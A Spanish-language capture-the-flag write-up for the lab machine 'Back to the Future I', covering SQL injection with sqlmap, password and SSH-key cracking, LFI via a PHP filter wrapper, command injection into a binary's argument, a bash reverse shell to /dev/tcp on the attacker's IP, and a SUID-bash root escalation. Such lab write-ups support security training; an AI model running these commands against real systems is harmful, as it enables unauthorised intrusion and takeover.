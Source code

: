 # 🖥️ Write-Up: [BACK TO THE FUTURE I](https://labs.thehackerslabs.com/machine/119)

## 📌 Información General
    - Nombre de la máquina: Back to the Future I
    - Plataforma: The Hacker Labs
    - Dificultad: Avanzado
    - Creador: d4redevil
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

Nuestra ip es la **10.0.5.5**

La máquina Back to the Future I tiene la ip **10.0.5.6**

### Descubrimiento de Puertos

Comenzamos enumerando los puertos abiertos de la máquina usando la herramienta **nmap**.

![allPorts](screenshots/allPorts.png)

La máquina tiene abiertos los puertos 21, 22, 80 y 3306. Con **nmap** vamos a ver que servicios y versiones se están ejecutando estos puertos.

![target](screenshots/target.png)

### Puerto 80

Como hemos visto con **nmap**, se está aplicando **Virtual Hosting**, así que tenemos que añadir el dominio de **hillvalley.thl** al **/etc/hosts**.

![/etc/hosts](screenshots/etc-hosts.png)

Accedemos con el navegador a **hillvalley.thl** y vemos un panel de login.

![home](screenshots/home-80.png)

Vamos a buscar subdirectorios de la web utilizando la herramienta **gobuster**

![fuzzing](screenshots/fuzzing.png)

El subdirectirio de **config.php** nos servirán más adelante.

## 🔥Explotación

Como hemos visto que el puerto 3306 está ejecutando un servicio de MySQL, entendemos que estará vinculado con este panel de login, así que vamos a probar a introducir una comilla simple (') en el campo del user.

![server-error](screenshots/server-error.png)

Vemos que se produce un **Internal Server Error**, así que vamos a probar a realizar una **SQL Injection** con la herramienta **sqlmap**

```bash
sqlmap --url "http://hillvalley.thl/index.php" --form --batch --dump
```

![sql-injection](screenshots/sql-injection.png)

Obtenemos un usuario, **marty** y un hash de una contraseña. Vamos a guardar este hash en un archivo llamado hash y a intentar romperlo usando **John the Ripper** y una versión reducida del diccionario rockyou que llamaremos **minirock**

![marty-hash](screenshots/marty-hash.png)

Obtenemos la contraseña **andromeda**. Así que con ella y el usuario **marty** vamos a acceder al panel de login.

![login-home](screenshots/login-home.png)

Si accedemos a los distintos apartados de la web vemos que los recursos se cargan a través de un parámetro "**page**" en la url. Por lo que vamos a intentar un **Local File Inclusion** (LFI).

![/etc/passwd](screenshots/etc-passwd.png)

En el código fuente es más legible.

![/etc/passwd-source](screenshots/etc-passwd-source.png)

Tenemos dos usuarios, **marty** y **docbrown**.

Ya que hemos encontrado un **LFI** vamos a probar a usar **wrappers** para ver el contenido del directorio **config.php** que habíamos visto antes, ya que si intentamos acceder a él con el parámtero **page** no podremos ver el código de php.

Usaremos este wrapper, que nos convierte a base64 el contenido del archivo --> **php://filter/convert.base64-encode/resource=config.php**

![config-base64](screenshots/config-base64.png)

Y ya tenemos el contenido en base64, si lo decodificamos

![config](screenshots/config.png)

Obtenemos la contraseña **t1m3travel**

### Puerto 21 FTP

Vamos a conectarnos al puerto 21 con las credenciales **marty:t1m3travel** y listamos los archivos.

![ftp](screenshots/ftp.png)

Nos descargamos el **backup.zip** y **.note_to_marty.txt**

En la nota encontramos:
```
Marty, si estás leyendo esto, significa que el Delorean sigue en riesgo.
Tuve que proteger el backup del sitio web. La contraseña es una combinación del modelo del auto y el año del primer viaje temporal... en minúsculas, sin espacios.
¡Nos vemos en el futuro!
—Doc
```

Vamos a construir la contraseña, sabemos que el coche que se utilizó era un **DeLorean** y el año del primer viaje temporal fue **1955**, asi que tendríamos como contraseña **delorean1955**

## 🔑 Acceso SSH

Descomprimos el archivo usando **unzip** y la contraseña **delorean1955** y conseguimos una carpeta project. En su interior tenemos un **id_rsa**, así que lo usaremos para conectarnos por ssh como el usuario **marty**.

```bash
ssh marty @10.0.5.6 -i id_rsa
```
Nos pide un passphrase, por lo que vamos a averiguarlo usando **john**.

Primero usamos:
```bash
ssh2john id_rsa > rsa_hash
```
Y después usamos **john** y la versión reducida del rockyou que usamos anteriormente.

![](screenshots/rsa-hash.png)

Ahora con el passphrase **metallica1** y la id_rsa nos conectamos por ssh.

![user-flag](screenshots/user-flag.png)

Ahí tenemos la **flag de usuario** y también, un archivo interesante **.flux.notes**.

## 🧗 Escalada de Privilegios

### Docbrown

Dentro del archivo **.flux_notes** encontramos el mensaje:

```
Tiempos inestables... aún necesito arreglar el runner para la próxima prueba
```

Nos habla de "runner", así que nos vamos al directorio raíz (/) y vamos a buscar archivos que contengan esa palabra.

```bash
find / -name \*runner\* -type f 2>/dev/null
```
Nos muestra varios resultados pero nos vamos a quedar con **/usr/local/bin/backup_runner**

Es un archivo binario, si aplicamos **strings** para ver las cadenas legibles.

![backup_runner](screenshots/backup_runner.png)
 
Vemos que el argumento que le pasamos al binario se sustituye en el **%s** para formar el nombre del comprimido y no se sanetiza este argumento, por lo que podemos probar a inyectar un comando y comentar el resto del código. Ejecutamos el binario pasándole como argumento `";whoami #"` 

![runner-whoami](screenshots/runner-whoami.png)

Podemos ejecutar comandos como el usuario **docbrown**, por lo que nos vamos a mandarnos una reverse shell introduciendo `";bash -c 'bash -i >& /dev/tcp/10.0.5.5/443 0>&1' #"` y poniéndonos en escucha en nuestra máquina `nc -nlvp 443`

![docbrown](screenshots/docbrown.png)


Ya somos el usuario **docbrown**, ahora vamos a hacer el tratamiento de la **TTY**.

![tty1](screenshots/tty1.png)

Y ajustamos las dimensiones de la terminal

```bash
stty rows 39 columns 172
```
### Root

Si revisamos los permisos sudoers con `sudo -l`, vemos que podemos ejecutar como root y sin contraseña **/usr/local/bin/time_daemon**

![sudoers-docbrowm](screenshots/sudoers-docbrown.png)


Si lo ejecutamos como sudo, vemos que nos indica que no existe el archivo **/tmp/sync**

![time_daemon](screenshots/time_daemon.png)

Vamos a crear el archivo **sync** en el directorio **/tmp** y le vamos a añadir el siguiente código de bash:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Volvemos a ejecutar el binario como sudo y nos muestra un mensaje de sincronización completa. Esperamos un poco y vemos que la bash tiene permisos **SUID**. Así que usando `/bin/bash -p` seremos root.

![root](screenshots/root.png)
